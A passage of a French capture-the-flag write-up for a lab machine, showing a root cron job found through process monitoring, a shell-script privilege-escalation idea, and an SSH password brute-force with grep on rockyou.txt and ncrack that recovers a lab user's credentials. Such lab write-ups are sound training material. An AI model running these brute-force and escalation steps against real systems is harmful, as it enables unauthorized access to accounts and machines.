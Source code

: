 Une solution plus performante serait de se baser sur *inotify* (exercice laissé au lecteur comme on dit :D )  

En tout cas ça m'a été utile :  

```plain
30747 root /usr/sbin/cron -f
30748 root /bin/sh -c cd /lib/logs/ && ./homeless.py
30750 root /bin/sh -c cd /lib/logs/ && ./homeless.py
30751 Debian-+ /usr/sbin/sendmail -i -FCronDaemon -B8BITMIME -oem root
30755 Debian-+ /usr/sbin/sendmail -i -FCronDaemon -B8BITMIME -oem root
30756 root /usr/sbin/exim4 -Mc 1enu4P-0007zz-GI
```

On voit bien ici que le script Python est appelé tel quel et comme il manque le bon shebang il va tenter d'exécuter *import* qui n'est pas présent sur le système (paquet *ImageMagick* il me semble) mais même en plaçant notre *import* piégé dans */lib/logs* toujours rien...  

En fait tout simplement root n'a pas le dossier courant dans son PATH... Dès lors notre seule option est de devenir *downfall* qui a les droits d'écriture sur le fichier via son GID.  

Ncrack attack
-------------

*Kartone* m'a rappelé la présence d'un indice dans la description du CTF :  

> If you got big stuck, Try with Password start with "sec\*" with nice wordlist.

Dans un premier temps j'ai fait le tri sur *RockYou* :  

```plain
grep -i -e "^sec" /opt/wordlists/rockyou.txt > seclist.txt
```

et Ncrack a fait le reste :  

```plain
$ ncrack -u downfall -P seclist.txt -T4 ssh://192.168.2.3

Starting Ncrack 0.6 ( http://ncrack.org ) at 2018-02-22 21:15 CET

Discovered credentials for ssh on 192.168.2.3 22/tcp:
192.168.2.3 22/tcp ssh: 'downfall' 'secretlyinlove'

Ncrack done: 1 service scanned in 452.97 seconds.

Ncrack finished.
```

En regardant les mails de l'utilisateur on voit que c'était un indice supplémentaire :  

```plain
downfall@creatigon:~$ mail
"/var/mail/downfall": 2202 messages 2202 new
>N   1 Cron Daemon        Tue Dec  5 12:30  21/773   Cron <root@creatigon> root /lib/logs/homeless.py
? 2100
Return-path: <root@creatigon.localhost>
Envelope-to: root@creatigon.localhost
Delivery-date: Mon, 19 Feb 2018 19:02:01 -0500
Received: from root by creatigon.localhost with local (Exim 4.89)
        (envelope-from <root@creatigon.localhost>)
        id 1envNh-0008TY-Rr
        for root@creatigon.localhost; Mon, 19 Feb 2018 19:02:01 -0500
From: root@creatigon.localhost (Cron Daemon)
To: root@creatigon.localhost
Subject: Cron <root@creatigon> cd /lib/logs/ && ./homeless.py
MIME-Version: 1.0
Content-Type: text/plain; charset=UTF-8
Content-Transfer-Encoding: 8bit
X-Cron-Env: <SHELL=/bin/sh>
```